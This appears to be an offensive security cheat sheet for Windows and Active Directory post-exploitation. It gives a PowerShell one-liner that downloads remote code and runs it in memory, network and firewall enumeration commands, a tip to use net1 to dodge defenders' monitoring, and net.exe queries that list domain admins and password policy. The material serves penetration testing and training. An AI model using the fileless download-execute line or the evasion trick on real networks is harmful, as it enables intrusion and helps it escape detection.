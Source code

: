 ### Transfer files


```powershell
# This is a quick and easy way to download a file from the web using PowerShell and call it from memory.
powershell -nop -c "iex(New-Object Net.WebClient).DownloadString('URL to download the file from'); <follow-on commands>"	
```


### Network Information

```powershell
# Lists all known hosts stored in the arp table.
arp -a

# Prints out adapter settings for the host. We can figure out the network segment from here.
ipconfig /all	

# Displays the routing table (IPv4 & IPv6) identifying known networks and layer three routes shared with the host.
route print

# Displays the status of the host's firewall. We can determine if it is active and filtering traffic.
netsh advfirewall show allprofiles
```


## The net commands

**Evasion trick**: If you believe the network defenders are actively logging/looking for any commands out of the normal, you can try this workaround to using net commands. Typing `net1` instead of `net` will execute the same functions without the potential trigger from the net string.

#### Net.exe commands

```powershell
# Information about password requirements
net accounts	

# Password and lockout policy
net accounts /domain

# Information about domain groups
net group /domain	

# List users with domain admin privileges
net group "Domain Admins" /domain

# List of PCs connected to the domain
net group "domain computers" /domain	

# List PC accounts of domains controllers
net group "Domain Controllers" /domain	

# User that belongs to the group
net group <domain_group_name> /domain	

# List of domain groups
net groups /domain	

# All available groups
net localgroup	

```